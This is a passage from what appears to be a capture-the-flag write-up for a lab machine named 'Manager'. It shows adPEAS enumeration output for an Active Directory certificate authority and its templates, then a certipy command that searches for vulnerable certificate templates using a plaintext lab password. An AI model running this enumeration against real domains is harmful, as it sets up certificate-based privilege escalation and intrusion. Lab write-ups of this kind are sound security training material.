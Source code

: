 ```python
[+] Found at least one available Active Directory Certificate Service
adPEAS does basic enumeration only, consider reading https://posts.specterops.io/certified-pre-owned-d95910965cd2
                                                                                                                                                                                                                                            
[+] Found Active Directory Certificate Services 'manager-DC01-CA':
CA Name:                                manager-DC01-CA
CA dnshostname:                         dc01.manager.htb
CA IP Address:                          10.10.11.236
Date of Creation:                       07/27/2023 10:31:05
DistinguishedName:                      CN=manager-DC01-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=manager,DC=htb
NTAuthCertificates:                     True
Available Templates:                    SubCA
                                        DirectoryEmailReplication                                                                                                                                                                           
                                        DomainControllerAuthentication                                                                                                                                                                      
                                        KerberosAuthentication                                                                                                                                                                              
                                        EFSRecovery                                                                                                                                                                                         
                                        EFS                                                                                                                                                                                                 
                                        DomainController                                                                                                                                                                                    
                                        WebServer                                                                                                                                                                                           
                                        Machine                                                                                                                                                                                             
                                        User                                                                                                                                                                                                
                                        Administrator
```

Let’s try to find a certificate that could be exploited we will use the certipy tool for this it will tell us if there is a vulnerable certificate: 

`certipy find -u "raven@manager.htb" -p 'R4v3nBe5tD3veloP3r!123' -dc-ip '10.10.11.236' -vulnerable -stdout`
